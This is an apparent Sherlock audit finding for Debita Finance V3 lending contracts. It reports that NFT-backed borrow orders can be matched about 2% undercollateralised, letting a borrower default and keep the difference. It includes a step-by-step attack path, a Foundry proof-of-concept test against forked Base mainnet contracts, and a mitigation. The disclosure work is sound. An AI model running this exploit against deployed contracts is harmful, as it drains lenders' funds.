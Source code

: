Brisk Cobalt Skunk

High

# Allowing undercollateralization for NFT borrow orders leads to instant bad debt and loss of lender's funds

### Summary

When the borrow order `isNFT` is true, the `amountOfCollateral` - collateral used for the principle supplied by all `lendOrders` has to be within 2% margin of the amount of underlying token for the NFT. This means that the borrower can create a borrow order with locked amount of underlying equal to available amount in lender's order minus 2%, and match the offers by requesting the full available amount.

### Root Cause

Allowing undercollateralization of the loan:
https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaV3Aggregator.sol#L565-L571

### Internal pre-conditions

- lend orders with receipt NFT set as accepted collateral exist
- malicious user has a borrow order with that NFT set as collateral with underlying token amount worth 2% less in principle token than the lend order's available amount 
- malicious user frontruns any attempts to call `matchOffersV3()` with any of the above orders to become the connector and ensure their borrow order is matched only with the chosen lend orders

### External pre-conditions

--

### Attack Path

1. Hunt for lending orders that support NFT as collateral offering any principles ( the less lend orders, the easier the attack; the more lend orders, the bigger loss of funds is incurred - similarly with the amount of principal offered ).
2. Once found, create a borrow order where the amount of underlying token is at most 2% smaller than the amount of underlying token of value equal to principal they'll request from the lender.
3. Call `matchOffersV3()` for this orders creating a loan for 5 days - to pay the minimum 0.2% fee minus 15% for the connector which goes to the attacker.
4. Do not repay the loan, stealing the 2% difference from the lender and avoiding any interest. 
5. Repeat for all new lending orders supporting NFTs as collateral. 

Note that the `ratio` does not matter for that exploit, assuming that the lender is honest. That's because the exploit simply requires proper parameters adjustment to reach an allowed state of undercollateralization.


### Impact

Undercollateralization possible on loan creation leads to unavoidable loss of funds for the lender. The loss is relevant - up to 2% of the value of principal tokens in collateral token, and it can be easily repeated for all lend orders approving NFT collateral. 


### PoC

The PoC was created by modifying `MixOneLenderLoanReceipt.t.sol` test file where NFT collateral was used for a loan with one borrower and one lender. For simplicity, the PoC is provided as a new file in the dropdown below. However, major changes to the setup changes are explained with `@note` comment and the test case itself is called `test_LenderLossDueToUndercollateralization`.
<details>
<summary>PoC</summary>
```solidity

pragma solidity ^0.8.0;

import {Test, console} from "forge-std/Test.sol";
import {veNFTEqualizer} from "@contracts/Non-Fungible-Receipts/veNFTS/Equalizer/Receipt-veNFT.sol";
import {veNFTVault} from "@contracts/Non-Fungible-Receipts/veNFTS/Equalizer/veNFTEqualizer.sol";

import {DBOFactory} from "@contracts/DebitaBorrowOffer-Factory.sol";
import {DBOImplementation} from "@contracts/DebitaBorrowOffer-Implementation.sol";
import {DLOFactory} from "@contracts/DebitaLendOfferFactory.sol";
import {DLOImplementation} from "@contracts/DebitaLendOffer-Implementation.sol";
import {DebitaV3Aggregator} from "@contracts/DebitaV3Aggregator.sol";
import {Ownerships} from "@contracts/DebitaLoanOwnerships.sol";
import {auctionFactoryDebita} from "@contracts/auctions/AuctionFactory.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {DynamicData} from "../../../interfaces/getDynamicData.sol";
// import ERC20
import {ERC20Mock} from "@openzeppelin/contracts/mocks/token/ERC20Mock.sol";
import {DebitaV3Loan} from "@contracts/DebitaV3Loan.sol";
import {DebitaIncentives} from "@contracts/DebitaIncentives.sol";
import {VotingEscrow} from "@aerodrome/VotingEscrow.sol";
import {DebitaV3Loan} from "@contracts/DebitaV3Loan.sol";
import {DutchAuction_veNFT} from "@contracts/auctions/Auction.sol";
import {DebitaChainlink} from "@contracts/oracles/DebitaChainlink.sol";
import {DebitaPyth} from "@contracts/oracles/DebitaPyth.sol";
```
```solidity
contract DebitaAggregatorTest is Test, DynamicData {
    VotingEscrow public ABIERC721Contract;
    veNFTEqualizer public receiptContract;
    DBOFactory public DBOFactoryContract;
    DLOFactory public DLOFactoryContract;
    Ownerships public ownershipsContract;
    DebitaIncentives public incentivesContract;
    DebitaV3Aggregator public DebitaV3AggregatorContract;
    auctionFactoryDebita public auctionFactoryDebitaContract;
    DynamicData public allDynamicData;
    DebitaV3Loan public DebitaV3LoanContract;
    ERC20Mock public AEROContract;
    ERC20Mock public USDCContract;
    DLOImplementation public LendOrder;
    DBOImplementation public BorrowOrder;

    address DebitaChainlinkOracle;
    address DebitaPythOracle;

    address veAERO = 0xeBf418Fe2512e7E6bd9b87a8F0f294aCDC67e6B4;
    address AERO = 0x940181a94A35A4569E4529A3CDfB74e38FD98631;
    address USDC = 0x833589fCD6eDb6E08f4c7C32D4f71b54bdA02913;
    address AEROFEED = 0x4EC5970fC728C5f65ba413992CD5fF6FD70fcfF0;
    address borrower = address(0x02);
    address lender = address(this);

    uint receiptID;
    // @note veNFT ID
    uint ID;
    // @note for final balance asserts only
    uint borrowersInitialAEROBalance;

    function setUp() public {
        allDynamicData = new DynamicData();
        ownershipsContract = new Ownerships();
        receiptContract = new veNFTEqualizer(veAERO, AERO);
        ABIERC721Contract = VotingEscrow(veAERO);
        incentivesContract = new DebitaIncentives();
        DBOImplementation borrowOrderImplementation = new DBOImplementation();
        DBOFactoryContract = new DBOFactory(address(borrowOrderImplementation));
        DLOImplementation proxyImplementation = new DLOImplementation();
        DLOFactoryContract = new DLOFactory(address(proxyImplementation));
        auctionFactoryDebitaContract = new auctionFactoryDebita();
        AEROContract = ERC20Mock(AERO);
        USDCContract = ERC20Mock(USDC);
        DebitaV3Loan loanInstance = new DebitaV3Loan();
        DebitaV3AggregatorContract = new DebitaV3Aggregator(
            address(DLOFactoryContract),
            address(DBOFactoryContract),
            address(incentivesContract),
            address(ownershipsContract),
            address(auctionFactoryDebitaContract),
            address(loanInstance)
        );

        ownershipsContract.setDebitaContract(
            address(DebitaV3AggregatorContract)
        );
        auctionFactoryDebitaContract.setAggregator(
            address(DebitaV3AggregatorContract)
        );
        DLOFactoryContract.setAggregatorContract(
            address(DebitaV3AggregatorContract)
        );
        DBOFactoryContract.setAggregatorContract(
            address(DebitaV3AggregatorContract)
        );

        incentivesContract.setAggregatorContract(
            address(DebitaV3AggregatorContract)
        );
        DebitaV3AggregatorContract.setValidNFTCollateral(
            address(receiptContract),
            true
        );
        // @note deal these values for simplicity of final balance calculations
        deal(AERO, lender, 1020e18, false);
        deal(AERO, borrower, 1000e18, false);

        setOracles();

        bool[] memory oraclesActivated = allDynamicData.getDynamicBoolArray(1);
        uint[] memory ltvs = allDynamicData.getDynamicUintArray(1);
        uint[] memory ratio = allDynamicData.getDynamicUintArray(1);

        address[] memory acceptedPrinciples = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory acceptedCollaterals = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory oraclesPrinciples = allDynamicData
            .getDynamicAddressArray(1);
        // @note again, for simplicity 
        ratio[0] = 1e18;
        oraclesPrinciples[0] = DebitaChainlinkOracle;
        // @note for this PoC AERO is used for both principle and underlying token to avoid unnecessary calculations to account for price difference
        acceptedPrinciples[0] = AERO;
        acceptedCollaterals[0] = address(receiptContract);
        oraclesActivated[0] = true;
        ltvs[0] = 5000;

        // Lender creates the lend order:
           AEROContract.approve(address(DLOFactoryContract), 1020e18);
        ratio[0] = 1e18;
        oraclesActivated[0] = false;

        address lendOrderAddress = DLOFactoryContract.createLendOrder(
            false,
            oraclesActivated,
            false,
            ltvs,
            1000,
            8640000,
            86400,
            acceptedCollaterals,
            AERO,
            oraclesPrinciples,
            ratio,
            DebitaChainlinkOracle,
            1020e18
        );

    
        // Borrower creates a receipt id where locked amount after multiplying by 1.02 equals the available amount in lender's offer - the 0.02 is what gets requested and stolen

        vm.startPrank(borrower);  
        // @note increase the values for easier calculations
        borrowersInitialAEROBalance = 1000e18;
        IERC20(AERO).approve(address(ABIERC721Contract), 1000e18);
        uint id = ABIERC721Contract.createLock(1000e18, 365 * 4 * 86400);
        ABIERC721Contract.approve(address(receiptContract), id);
        uint[] memory nftID = allDynamicData.getDynamicUintArray(1);
        nftID[0] = id;
        ID = id;
        receiptContract.deposit(nftID);

        receiptID = receiptContract.lastReceiptID();

        IERC20(AERO).approve(address(DBOFactoryContract), 1000e18);

        
        receiptContract.approve(address(DBOFactoryContract), receiptID);
        address borrowOrderAddress = DBOFactoryContract.createBorrowOrder(
            oraclesActivated,
            ltvs,
            1400,
            // @note 5 days loan
            432000,
            acceptedPrinciples,
            address(receiptContract),
            true,
            receiptID,
            oraclesPrinciples,
            ratio,
            DebitaChainlinkOracle,
            1
        );
        vm.stopPrank();

         LendOrder = DLOImplementation(lendOrderAddress);
        BorrowOrder = DBOImplementation(borrowOrderAddress);
    }
    
    function test_LenderLossDueToUndercollateralization() public {
        uint borrowerBalanceBefore = ABIERC721Contract.balanceOfNFT(ID) + AEROContract.balanceOf(borrower);

        // Match offer 
                address[] memory lendOrders = allDynamicData.getDynamicAddressArray(1);
        uint[] memory lendAmountPerOrder = allDynamicData.getDynamicUintArray(
            1
        );
        uint[] memory porcentageOfRatioPerLendOrder = allDynamicData
            .getDynamicUintArray(1);
        address[] memory principles = allDynamicData.getDynamicAddressArray(1);
        uint[] memory indexForPrinciple_BorrowOrder = allDynamicData
            .getDynamicUintArray(1);
        uint[] memory indexForCollateral_LendOrder = allDynamicData
            .getDynamicUintArray(1);
        uint[] memory indexPrinciple_LendOrder = allDynamicData
            .getDynamicUintArray(1);
        indexForPrinciple_BorrowOrder[0] = 0;
        indexForCollateral_LendOrder[0] = 0;
        indexPrinciple_LendOrder[0] = 0;

        lendOrders[0] = address(LendOrder);
        // @note the exploit happens here - more is requested than supplied as collateral
        lendAmountPerOrder[0] = 1020e18;
        porcentageOfRatioPerLendOrder[0] = 10000;
        principles[0] = AERO;

        address loan = DebitaV3AggregatorContract.matchOffersV3(
            lendOrders,
            lendAmountPerOrder,
            porcentageOfRatioPerLendOrder,
            address(BorrowOrder),
            principles,
            indexForPrinciple_BorrowOrder,
            indexForCollateral_LendOrder,
            indexPrinciple_LendOrder
        );

        DebitaV3LoanContract = DebitaV3Loan(loan);

        // Malicious borrower does not repay the loan

        // Liquidate to recover at least the collateral
        vm.warp(block.timestamp + 8640010);
        address ownerBefore = receiptContract.ownerOf(receiptID);
        DebitaV3LoanContract.claimCollateralAsLender(0);
        address ownerAfter = receiptContract.ownerOf(receiptID);
        assertEq(ownerBefore, address(DebitaV3LoanContract));
        assertEq(ownerAfter, lender);

        uint borrowerBalanceAfter = AEROContract.balanceOf(borrower);
        
        uint stolenAERO = borrowerBalanceAfter - borrowerBalanceBefore - borrowersInitialAEROBalance;
        console.log("AERO earned: ", stolenAERO); // 17.96e18
        uint minFee = 20;
        uint borrowFees =  1020e18 * minFee / 10000; // 2.04e18
        assertEq(stolenAERO, 20e18 - borrowFees);
    }

     function setOracles() internal {
        DebitaChainlink oracle = new DebitaChainlink(
            0xBCF85224fc0756B9Fa45aA7892530B47e10b6433,
            address(this)
        );
        DebitaPyth oracle2 = new DebitaPyth(address(0x0), address(0x0));
        DebitaV3AggregatorContract.setOracleEnabled(address(oracle), true);
        DebitaV3AggregatorContract.setOracleEnabled(address(oracle2), true);

        oracle.setPriceFeeds(AERO, 0x4EC5970fC728C5f65ba413992CD5fF6FD70fcfF0);

        DebitaChainlinkOracle = address(oracle);
        DebitaPythOracle = address(oracle2);
    }
}
```
</details>

Create a new test file with any name and paste the code from the gist into it. Then run the test with:
```shell
 forge test --fork-url https://mainnet.base.org --fork-block-number 21151256  --mt test_LenderLossDueToUndercollateralization -vvv
```


### Mitigation

Don't allow the creation of undercollateralized loans:
```solidity
 require(
                amountOfCollateral <=
                    (borrowInfo.valuableAssetAmount * 10000) / 10000 &&
                    amountOfCollateral >=
                    (borrowInfo.valuableAssetAmount * 9800) / 10000,
                "Invalid collateral amount"
            );
```